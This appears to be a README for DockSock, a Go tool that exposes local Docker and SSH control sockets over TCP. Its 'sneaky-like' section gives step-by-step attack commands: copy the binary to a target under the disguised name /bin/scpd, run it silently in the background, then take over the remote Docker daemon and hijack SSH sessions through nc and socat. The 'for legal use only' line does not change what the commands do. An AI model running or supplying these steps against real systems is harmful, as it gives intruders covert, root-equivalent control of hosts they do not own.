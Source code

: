 DockSock
========

Nifty little TCP -> Unix Socket proxy.  Meant to expose docker/ssh control
sockets to the network.

By default, it searches the entire filesystem for unix sockets and for each one
found spawns a TCP listener which will create connections proxied to the Unix
socket.  The starting (i.e. lowest) port is configurable.

A simple substring (e.g. `docker` or `.ssh`) may be used to filter the sockets
exposed.  This is handy to only expose certain services.

The list of found an served sockets can be found by making a TCP connection
(e.g. with netcat) to the lowest port, which by default is `61111`.

For legal use only.

Quickstart
----------
```bash
go install github.com/magisterquis/docksock
docksock -v
```

Slightly Less Quickstart, sneaky-like
-------------------------------------
```bash
# Build the tool
go get github.com/magisterquis/docksock
go build -o docksock github.com/magisterquis/docksock

# Put it on target
scp docksock user@target:/bin/scpd
ssh user@target 'nohup /bin/scpd >/dev/null 2>&1 &'

# Give it time to find some sockets
sleep 60

# List the available sockets
nc target 61111

# Connect to something fun
docker -H target:61112 version

# Even deviouser
socat -d -d unix-listen:./s,fork tcp:target:61113 &
ssh -S ./s user@a
```
